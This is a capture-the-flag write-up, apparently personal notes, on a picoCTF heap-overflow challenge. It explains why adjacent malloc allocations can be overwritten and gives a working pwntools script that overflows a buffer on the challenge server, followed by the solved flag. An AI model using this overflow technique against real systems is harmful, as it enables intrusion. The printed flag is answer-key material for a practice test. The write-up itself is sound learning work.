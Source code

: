 ```yaml
---
ai_date: 2025-04-27 05:29:29
ai_summary: Overflow exploit using adjacent memory allocation due to `malloc` fragmentation
ai_tags:
  - heap-overflow
  - malloc
  - buffer-overflow
created: 2024-08-08T00:20
updated: 2025-07-14T09:46
---
```


Since two `malloc` are fired in succession, their memory addresses are likely to be right next to each other.

| Variable     | Address          | Data   |
| ------------ | ---------------- | ------ |
| `input_data` | `0x59a3f74dc2b0` | `pico` |
| `safe_var`   | `0x59a3f74dc2d0` | `bico` |

The addresses themselves however could be separated by the block size.
IIRC `malloc` do this to make memory access more efficient.

We can hence overflow `input_data` with 32 characters.

```python
from pwn import *
# nc tethys.picoctf.net 55998
t = remote('tethys.picoctf.net', 55998)
t.sendlineafter(b": ", b"2")
t.sendlineafter(b": ", b"A"*32+b"pico")
t.sendlineafter(b": ", b"4")
info(t.recvall())
```

```flag
picoCTF{starting_to_get_the_hang_79ee3270}
```